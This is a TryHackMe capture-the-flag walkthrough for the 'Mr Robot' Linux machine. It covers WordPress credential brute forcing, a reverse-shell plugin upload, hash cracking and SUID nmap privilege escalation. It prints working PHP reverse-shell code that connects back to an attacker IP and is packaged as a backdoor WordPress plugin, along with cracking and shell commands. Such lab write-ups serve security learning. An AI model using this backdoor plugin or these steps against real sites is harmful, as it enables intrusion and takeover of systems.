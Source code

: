```yaml
---
title: "[TryHackMe] walkthrough: Mr Robot (Linux)"
date: 2025-02-14
categories: [tryhackme]
tags: [thm, linux, medium]
---
```


![head](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.29.02.png)

## Info

- Platform: Tryhackme
- Machine Name: Mr Robot
- Target IP/Host: 10.10.156.218
- OS / Version: Linux
- Difficulty / Category: Medium

## Overview

Directory brute forcing -> find wp-login -> password brute force -> get admin perm -> revshell wordpress plugin upload -> initial access -> find suid binary -> priv escalation

Lets get started right away.

## Recon & Enumeration

I found that the ip address is 10.10.156.218, so I started scanning to gather some information.

As a result, I found that ports 22, 80, 443 were open. And I decided to check port 80 first.

![nmap](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.31.29.png)

Port 80 and 443 showed the same web page.

It was an interactive page, but nothing seemed important or useful.

![web](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.32.06.png)

Next, I tried directory brute forcing.

I found /robots.txt, /wp-loign.

![dir](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.32.36.png)

In /robots.txt, I found a wordlist file called fsocity.dic and first flag.

![dic](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.33.33.png)

![flag](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.34.08.png)

After that, I visited /wp-login.

![web](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.34.49.png)

## Initial Access

I captured the login request using burp suite.

The username parameter was log, and the password parameter was pwd.

When I tried invalid username, the page showed the message ‘invalid username’.
![burp](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.35.25.png)

So I used the wordlist I found earlier to brute force the username.

I found a valid username:Elliot.

![hydra](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.35.59.png)

Next, I used the same wordlist to brute force the password for the user:Elliot.

I was able to find the correct password.

![hydra](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.36.43.png)

Using the credentials, I successfully logged into Wordpress.

Next, I tried to get a reverse shell by uploading a plugin.

The plugin payload was as follows:

```
# reverse.php
<?php
$ip = '10.0.0.1';  // attacker IP
$port = 4444;      // listening port
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

# evil-plugin.php
<?php
/*
Plugin Name: Evil Plugin
Plugin URI: http://example.com/
Description: This is a backdoor plugin.
Version: 1.0
Author: Attacker
*/

include('reverse.php'); 
?>

# same folder
zip -r evil-plugin.zip evil-plugin
```

I uploaded the plugin as .zip, and executed it.

As a result, I got a reverse shell.

When I checked user using the ‘id’ command, it showed that I was ‘daemon’.

![rev](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.37.30.png)

I checked the /home/robot directory and saw that the second flag was there, but I didn’t have permission to read it.

However, I was able to see a hashed password in same directory.

![hash](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.38.02.png)

## Privilege Escalation

I used hashcat to crack the hash, and I was able to recover the password.

`hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

![hash](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.38.44.png)

I used the password to switch to the robot user.

After that, I got second flag.

Next, I searched the system for binary files with the SUID permissions to escalate to root.

![suid](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.39.41.png)

I noticed the nmap binary had the SUID permission.

Using gtfobins, I found a way to bypass it and get root access.

![gtfo](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.40.08.png)

`python -c 'import pty; pty.spawn("/bin/bash")'`

In the end, I gained root access and got the final flag from the /root directory.

![root](/assets/images/tryhackme/mr_robot/스크린샷%202025-08-23%20오후%207.40.45.png)
